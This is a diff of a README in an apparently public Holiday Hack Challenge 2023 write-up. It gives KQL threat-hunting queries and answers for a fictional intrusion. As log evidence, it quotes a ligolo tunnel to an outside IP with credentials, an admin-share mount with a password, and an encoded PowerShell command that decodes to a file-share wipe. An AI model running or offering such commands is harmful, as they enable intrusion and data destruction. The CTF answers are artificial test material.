

Before and after one commit to LamonatoAndrea/HolidayHackChallenge2023_writeup, a Markdown page: 13 - KQL Kraken Hunt/README.md, 2 parts joined by grey strips. Shown: that part at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/13 - KQL Kraken Hunt/README.md
+++ b/13 - KQL Kraken Hunt/README.md
@@ -75,7 +75,7 @@ OutboundNetworkEvents
 | project timestamp
 ```
 
-*Answer for question 1*: `2023-12-02T10:12:42Z`
+*Answer to question 1*: `2023-12-02T10:12:42Z`
 
 *Query for question 2*:
 ```kql
@@ -85,7 +85,7 @@ FileCreationEvents
 | project filename
 ```
 
-*Answer for question 2*: `giftwrap.exe`
+*Answer to question 2*: `giftwrap.exe`
 
 #### Case #4
 *Question*:
@@ -99,16 +99,16 @@ ProcessEvents
 | where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
 ```
 
-*Answer for question 1*:
+*Answer to question 1*:
 This took a little manual analysis, eventually identifying the command:
 ```cmd
 cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
 ```
 
-*Answer for question 2*:
+*Answer to question 2*:
 This took a little manual analysis, eventually identifying a `net share` command at `2023-12-02T16:51:44Z`
 
-*Answer for question 3*:
+*Answer to question 3*:
 This took a little manual analysis, eventually identifying the command:
 ```cmd
 cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
@@ -115,0 +162,29 @@ cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
+#### Case #6
+*Question*:
+1) What is the name of the executable the attackers used in the final malicious command?
+2) What was the command line flag used alongside this executable?
+
+*Query*:
+```kql
+ProcessEvents
+| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
+```
+
+*Answer*:
+This took a little manual analysis, eventually identifying the command:
+```cmd
+C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -enc QzpcV2luZG93c1xTeXN0ZW0zMlxkb3dud2l0aHNhbnRhLmV4ZSAtLXdpcGVhbGwgXFxcXE5vcnRoUG9sZWZpbGVzaGFyZVxcYyQ=
+```
+By decoding the base64 payload:
+```cmd
+C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
+```
+So the executable is `downwithsanta.exe` and the command line flag is `--wipeall`.
+
+#### Flag
+Use KQL to obtain the flag:
+```kql
+print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
+```
+
+*Answer*: `Beware the Cube that Wombles`
````
Also changed, not shown: other parts of 13 - KQL Kraken Hunt/README.md (+46 -0 lines).
